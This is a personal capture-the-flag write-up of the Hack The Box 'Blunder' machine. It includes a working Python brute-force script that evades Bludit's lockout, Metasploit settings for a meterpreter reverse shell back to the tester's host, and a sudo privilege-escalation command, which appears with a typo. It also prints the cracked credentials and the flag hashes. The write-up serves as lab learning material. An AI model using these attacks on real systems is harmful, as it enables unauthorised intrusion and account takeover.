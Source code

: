 # Blunder - Linux - Easy

## User - *this was terrible*

### **Starting Off**

As always, I started off with running `nmap -sCV 10.10.10.191 > nmap.txt` to save the output of our scan for future reference.\
Found ftp and https open, so I navigated to the website and was greeted with a blog page.

I started up dirbuster, and chose to scan files from the dirbuster medium list with the extension of .php

---

### **Finding Exploits**

As usual, I googled `Bludit CMS exploit` and was first greeted with an [exploit](https://www.exploit-db.com/exploits/46060) that utilized the admin privileges to upload files.\
*Unfortunately, this was unable for our use as there was no place to upload files, as dirbuster suggeseted.*

Moving on the next result, I found an [exploit](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16113) that used similar logic, but instead abused the admin privileges to upload images. From what I understood, this CVE could upload images and imbed any command a malicious actor wanted to.\
*I saved this one as the key exploit, because `http://10.10.10.191/bl-kernel/ajax/upload-images.php` existed.*

Thankfully, metasploit had this exploit as `CVE-2019-16113`, allowing me to utilize metasploit for a quick-and-easy, 1-2 exploit. **Unfortunately, I was wrong.**\
The metasploit module required a username and password in the form of `BLUDITPASS` and `BLUDITUSER`

dirbuster had returned to me an admin login page as `http://10.10.10.191/admin/login`, allowing user access to the information panel for bludit. My first step was to use burpsuite to capture a request, set up in intruder, define the username area to be targeted with a fuzz list, define the password area to be targeted with a simple CeWL output (`cewl -w output.txt 10.10.10.191`), and bruteforce. *htb does not like bruteforcing, and this never ended up working*


<!-- i think you can use metasploit and the upload image exploit but i cant tell, no mentions of user or admin anywhere

I found thumbnails that have been modified recently today. downloaded but is gibberish -->
I found this comment on the hackthebox forums for Blunder, which helped me reduce my wastage of time.
```
Login - Try some fuzzing to get the first thing you need – the "usual" wordlist might not have what you need. Specifying extensions is important. The second thing you need is already in front of you.
User - CVE
Root - Check your capabilities
```

<!--okay after 4 hours of getting nowhere, here we are. -->

I ran dirbuster again with the extensions of `.php` and `.txt` and with recursive mode off, and thankfully found `todo.txt` which lists the following:
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```
*BINGO*, we now have a potential username of fergus

Even though htb does not support bruteforcing as a means of gaining access, I googled `bludit brute force exploit` and found a [bludit brute force program written in python](https://rastating.github.io/bludit-brute-force-mitigation-bypass/). I downloaded the POC and replaced some of the functionality to work in our case.

```
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []

with open('output.txt','r') as f:
    for i in f:
        wordlist.append(i.strip())


for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```
---

### **Gaining Access**

The output of the exploit returned `fergus:RolandDeschain` as a login, meaning that I could now use the metasploit module found earlier.
```
msf5 exploit(linux/http/bludit_upload_images_exec)
set payload php/meterpreter/reverse_tcp
set BLUDITUSER fergus
set BLUDITPASS RolandDeschain
set RHOSTS 10.10.10.191
set LHOST 10.10.14.3 #replace this with your own ip
set LPORT 3333 #any 4 random numbers here will work
exploit
```

After I logged in as `fergus`, I was able to look around the box and find a file within /var/www/bludit-3.9.2 called `users.php`, showing me an administrator account with both hash and salt, which is impossible to crack and get a password.\
Running `ps` gave me more possible users, as I found:
- shaun
- hugo
- whoopsie
- message+
- kernoops
- rtkit

I figured out that `whoopsie`, `message+`, `kernoops`, and `rtkit` were all normal system users with no meaning, so I targeted `shaun` and `hugo`. Unfortunately, this led me to waste another hour trying to find some sort of file that could possibly contain their information. I found a second bludit service in the form of `bludit-3.10.0a` with another file called `users.php` which returned the following:
```
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",  faca404fd5c0a31cf1897b823c695c85cffeb98d
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
Thankfully, the hash was a well-known one, as hashstation it in their databases. We now had a user `Hugo` with the password `Password120`. 

The metasploit module spawned a meterpreter shell, so I dropped into a bash shell and ran `su - hugo` to switch to hugo, and put in the password `Password120`, allowing us to navigate to /home/hugo and cat user.txt

3d10e3a03e90fc82ae2e20485f6126c4


---

## Root - *this was fun*

I was taught how to upgrade your shell by another htb user, stoneric (thank you).

From the same shell, I ran the following python command in order to "upgrade" my shell:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
Now we want to check what possible sudo privileges that Hugo has, if any with the command:
```
$ sudo -l

Matching Defaults entries for hugo on blunder:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
        (ALL, !root) /bin/bash

```

A simple google search of `(ALL, !root) /bin/bash` yielded the result that I should be able to gain root privileges with the following command:
```
sudo ~u#-1 /bin/bash
```

`whoami` now shows that we are successfully a root user, allowing us to change directories into /root and cat root.txt, giving usu our root hash.

07570cc298695624106fc443164a4e57

---
## What did I learn?
- How to use an exploit from metaspoit and setup variables required
- How to use BurpSuite
- How to upgrade a reverse shell with a python one-liner
- How to use CeWL to generate a list of possible passwords/usernames
- Sudo rules and how they can be overcome
